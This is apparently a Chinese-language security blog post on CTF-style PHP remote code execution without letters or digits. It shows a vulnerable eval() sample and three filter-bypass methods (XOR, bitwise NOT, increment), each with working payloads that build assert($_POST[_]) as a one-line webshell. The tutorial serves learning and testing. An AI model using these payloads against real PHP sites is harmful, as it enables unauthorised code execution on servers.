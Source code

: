 ```yaml
---
layout: post
title: 无字母数字rce
categories: [web,rce]
---
```

## 概述

例如

```php
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("hacker!");
}
@eval($code);
?>

```

 ## 1.异或

两个字符进行异或时，会先将字符串转换成ascii码值，再将这个值转换成二进制，然后一位一位的进行按位异或，异或的规则是：1^1=0,1^0=1,0^1=1,0^0=0，简单的来说就是相同为0，不同为1

脚本：

```python
valid = "1234567890!@$%^*(){}[];\'\",.<>/?-=_`~ "
answer = str(input("请输入进行异或构造的字符串："))
tmp1, tmp2 = '', ''
for c in answer:
  for i in valid:
    for j in valid:
      if (ord(i) ^ ord(j) == ord(c)):
        tmp1 += i
        tmp2 += j
        break
    else:
      continue
    break
print(f"\"{tmp1}\"^\"{tmp2}\"")
```

## 2.取反

想要构造的`assert($_POST[_])`这条语句，先用取反符号`~`将字符串`assert`和`_POST`取反，这里需要注意的是，由于它取反之后会有大量不可显字符，所以我们同样需要将其url编码，然后当我们要用的时候，再利用取反符号把它们取回来即可

```php
<?php 
$a=urlencode(~'assert');
echo $a;
echo '666';
$b=urlencode(~'eval($_POST[1]);');
echo $b;
//(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4);
```

```php
$_=~(%9E%8C%8C%9A%8D%8B);    //这里利用取反符号把它取回来，$_=assert
$__=~(%A0%AF%B0%AC%AB);      //$__=_POST
$___=$$__;                   //$___=$_POST
$_($___[_]);                 //assert($_POST[_]);
放到一排就是：
$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);

```

<br/>

## 3.自增

> 这个方法就是我之前看不懂的比较抽象的方法

[点击跳转](https://www.llllll.love/2023/08/10/%E5%B0%8F%E8%AE%A1/)

```php
//测试发现7.0.12以上版本不可使用
//使用时需要url编码下
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
固定格式 构造出来的 assert($_POST[_]);
然后post传入   _=phpinfo();
```
